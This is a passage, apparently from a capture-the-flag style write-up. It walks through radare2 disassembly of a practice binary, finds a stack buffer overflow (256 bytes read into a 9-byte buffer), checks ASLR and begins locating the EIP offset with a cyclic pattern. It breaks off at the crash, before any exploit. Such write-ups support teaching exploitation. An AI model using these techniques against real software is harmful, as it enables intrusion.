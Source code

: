```r
|           0x0804846f      83ec04         sub esp, 4
|           0x08048472      6a0e           push 0xe                    ; 14
|           0x08048474      6810850408     push str.Hello_World        ; 0x8048510 ; "Hello World\n" ; size_t nbytes
|           0x08048479      6a01           push 1                      ; 1 ; int fd
|           0x0804847b      e8a0feffff     call sym.imp.write          ; ssize_t write(int fd, void *ptr, size_t nbytes)
|           0x08048480      83c410         add esp, 0x10
|           0x08048483      b800000000     mov eax, 0
|           0x08048488      8b4dfc         mov ecx, dword [local_4h_2]
|           0x0804848b      c9             leave
|           0x0804848c      8d61fc         lea esp, dword [ecx - 4]
\           0x0804848f      c3             ret
[0x08048340]> pdf @sym.noob_function
/ (fcn) sym.noob_function 30
|   sym.noob_function ();
|           ; var int local_9h @ ebp-0x9
|              ; CALL XREF from 0x0804846a (sym.main)
|           0x0804843b      55             push ebp
|           0x0804843c      89e5           mov ebp, esp
|           0x0804843e      83ec18         sub esp, 0x18
|           0x08048441      83ec04         sub esp, 4
|           0x08048444      6800010000     push 0x100                  ; 256
|           0x08048449      8d45f7         lea eax, dword [local_9h]
|           0x0804844c      50             push eax                    ; size_t nbyte
|           0x0804844d      6a00           push 0                      ; int fildes
|           0x0804844f      e8acfeffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x08048454      83c410         add esp, 0x10
|           0x08048457      c9             leave
```

So, in a way it is calling `noob_function` which seems to be more input than it has been allocated to buffer which is a buffer overflow vulnerability. In the main, just after the `noob_function` is called it is printing `"Hello World\n"` by calling `write`.

So, since we know ASLR is enabled:-

```r
d4mianwayne@oracle:~/Pwning/rop$ cat /proc/sys/kernel/randomize_va_space 
2
```

Value is `2` which means ASLR is enabled. Now, we need to pwn it:-


### Finding offset to EIP

We are going to use `gef`'s `patter create` to create a cyclic pattern and then find the exact offset to EIP which will save us the time of finding offset by trial and error.

```r
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef1'
gef➤  r
Starting program: /home/d4mianwayne/Pwning/rop/chall 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]


```